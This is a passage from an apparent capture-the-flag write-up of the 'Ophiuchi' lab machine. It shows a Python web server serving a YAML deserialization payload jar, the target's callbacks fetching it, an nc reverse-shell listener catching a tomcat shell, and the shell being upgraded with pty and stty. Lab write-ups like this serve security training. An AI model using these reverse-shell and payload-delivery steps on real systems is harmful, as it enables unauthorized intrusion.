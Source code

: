 ```
$sudo python3  -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

[![trigger.png](/img/ophiuchi/trigger.png)](/img/ophiuchi/trigger.png)

Sending our yaml to parse it we get a callback on our webserver for the payload and a reverse shell on our listener. 

```
$sudo python3  -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.167.24 - - [03/Jul/2021 03:51:54] "GET /yaml-payload.jar HTTP/1.1" 200 -
10.129.167.24 - - [03/Jul/2021 03:51:54] "GET /yaml-payload.jar HTTP/1.1" 200 -
```

For easier access we upgrade our reverse shell as the tomcat user and fix the terminal size.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.167.24.
Ncat: Connection from 10.129.167.24:33260.
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@ophiuchi:/$ epxort TERM=xterm
epxort TERM=xterm
epxort: command not found
tomcat@ophiuchi:/$ export TERM=xterm
export TERM=xterm
tomcat@ophiuchi:/$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

tomcat@ophiuchi:/$ stty rows 55 cols 236
tomcat@ophiuchi:/$ id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
tomcat@ophiuchi:/$
```
